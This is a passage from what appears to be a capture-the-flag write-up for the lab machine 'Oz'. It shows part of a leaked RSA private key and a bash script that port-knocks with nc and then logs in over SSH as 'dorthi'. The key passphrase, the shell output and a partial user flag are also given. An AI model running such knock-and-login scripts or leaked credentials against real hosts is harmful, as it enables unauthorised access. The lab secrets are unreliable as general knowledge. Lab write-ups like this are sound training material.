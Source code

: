     QGpqEaGSUG+/TSdcANQdD3mv6EGYI+o4rZKEHJKUlCI+I48jHbvQCLWaR/bkjZJu
    XtSuV0TJXto6abznSC1BFlACIqBmHdeaIXWqH+NlXOCGE8jQGM8s/fd/j5g1Adw3
    -----END RSA PRIVATE KEY-----
     |
    ...[snip]...



### SSH as dorthi

Now I have everything I need to SSH as dorthi. I converted the port
knocking onliner into a bash "get shell" script:



    #!/bin/bash

    ports="40809 50212 46969"

    for port in $ports; do 
        
        echo "[*] Knocking on ${port}"
        echo "a" | nc -u -w 1 10.10.10.96 ${port}
        sleep 0.1
    done; 

    echo "[*] Knocking done."
    echo "[*] Password:"
    echo "N0Pl4c3L1keH0me"

    ssh -i ~/id_rsa-oz-dorthi dorthi@10.10.10.96



Run it, and get a shell, and user.txt:



    root@kali# ./ssh_dorthi.sh 
    [*] Knocking on 40809
    [*] Knocking on 50212
    [*] Knocking on 46969
    [*] Knocking done.
    [*] Password:
    N0Pl4c3L1keH0me
    Enter passphrase for key '/root/id_rsa-oz-dorthi': 
    dorthi@Oz:~$ id
    uid=1000(dorthi) gid=1000(dorthi) groups=1000(dorthi)
    dorthi@Oz:~$ cat user.txt 
    c21cff3b...



## Enumerate Docker Networks

### sudo -l

One of the first things I always check in Linux privesc is `sudo -l`. In
this case, dorthi has entries:
